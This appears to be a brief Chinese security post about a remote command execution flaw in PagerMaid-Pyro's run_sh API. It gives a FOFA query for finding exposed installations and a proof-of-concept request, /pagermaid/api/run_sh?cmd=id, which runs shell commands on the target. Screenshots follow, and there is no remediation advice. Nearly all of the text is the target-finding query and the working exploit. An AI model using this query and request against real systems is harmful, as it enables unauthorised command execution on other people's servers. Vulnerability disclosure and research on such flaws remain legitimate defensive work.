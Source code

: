 #  PagerMaid-Pyro run_sh-rce命令执行漏洞   
清晨  摸鱼划水   2025-05-27 02:17  
  
FOFA  
```
"PagerMaid-Pyro"
```  
  
POC  
```
/pagermaid/api/run_sh?cmd=id
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qJ5apkMXic82W6aLgicAkeVDgjcl7QKFfvbgmdrUgL2YJUX59sNwsgHcAj4XUXcfibLUExQomKrp5Ah2lfFNiaXg5w/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/qJ5apkMXic82W6aLgicAkeVDgjcl7QKFfvAibO2eDiaiaXqmIVpvY7pbyMyp6HpQ9hBQQPwgnMhcibaKicjXK4jsbubYg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
